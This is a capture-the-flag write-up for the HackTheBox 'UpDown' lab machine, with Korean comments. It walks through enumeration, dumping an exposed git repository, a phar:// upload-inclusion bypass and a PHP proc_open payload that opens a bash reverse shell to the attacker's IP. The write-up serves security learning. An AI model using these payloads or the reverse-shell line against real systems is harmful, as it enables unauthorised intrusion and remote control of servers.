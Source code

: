 ```yaml
---
layout: post
title: HackTheBox UpDown
subtitle: UpDown WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](assets/images/posts/2025-03-17-UpDown/1a290611f444e0d251233ed971a4f9f7_MD5.jpeg)
## Target - 10.129.227.227
### Nmap
```bash
nmap -sC -sV -Pn -p- 10.129.227.227 -o UpDown_AllPort
```

### WEB
```bash
# 호스트 등록
echo "10.129.227.227 siteisup.htb" | sudo tee -a /etc/hosts

# 디렉토리 탐색
gobuster dir -u siteisup.htb -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://siteisup.htb/dev -w /usr/share/wordlists/dirb/common.txt

# 서브도메인 탐색
gobuster vhost -u http://siteisup.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

# 서브도메인 호스트 등록
echo "10.129.227.227 dev.siteisup.htb" | sudo tee -a /etc/hosts

# git dump
git-dumper http://siteisup.htb/dev/.git dev

# config 보기
cat .htaccess
```

![](/assets/images/posts/2025-03-17-UpDown/284ba3fd6ad877528a4f3670a2f6ce5b_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/3dad85a3644415a5b33e41cbffc9aec7_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/a41302bb81f42bed44f2386fe38e06c2_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/caba1c0c482717b28220a2be17b2c742_MD5.jpeg)

![](/assets/images/posts/2025-03-17-UpDown/fb818fef54497e9853afd3ea110a3218_MD5.jpeg)![](/assets/images/posts/2025-03-17-UpDown/3081fbcce96767472ac559c5c7d2bcd1_MD5.jpeg)

### phar:// Exploit
```bash
# 파일 필터링 로직 및 upload 경로 확인
cat checker.php

echo "<?php phpinfo(); ?>" > info.php
zip info.zip info.php
mv info.zip info.txt

http://dev.siteisup.htb/?page=phar://uploads/a4cb7397e7c127125e4af8261d1c8fef/info.txt/info


http://dev.siteisup.htb/?page=phar://uploads/7bb47c7cd9afb5b1d2fe39f26f76ee3c/poc.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/bf7036a51a5414ccfef2e795f8a45153_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/4fcc8fc91aad8d6b18d28968e621f56c_MD5.jpeg)
### dfunc-bypasser.py
```bash
# vi dfunc-bypasser.py 수정
phpinfo = requests.get(url, headers={"Special-dev":"only4dev"}).text

# 실행
python dfunc-bypasser.py --url http://dev.siteisup.htb/?page=phar://uploads/11d0d701df649f7c93b673db37e5c66b/info.txt/info
```
![](/assets/images/posts/2025-03-17-UpDown/a031fa0acd34384e5287aa7bf3cf36fd_MD5.jpeg)
![](/assets/images/posts/2025-03-17-UpDown/7e35d58b12f926a49afde5d26ee81e62_MD5.jpeg)
### proc_open Exploit
```php
# poc.php
<?php 
$descriptorspec = array(
0 => array('pipe', 'r'), // stdin 
1 => array('pipe', 'w'), // stdout 
2 => array('pipe', 'a') // stderr 
); 
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/9999 0>&1'"; 
$process = proc_open($cmd, $descriptorspec, $pipes, null, null); 
?>
```

```bash
zip poc.zip poc.php
mv poc.zip poc.txt


```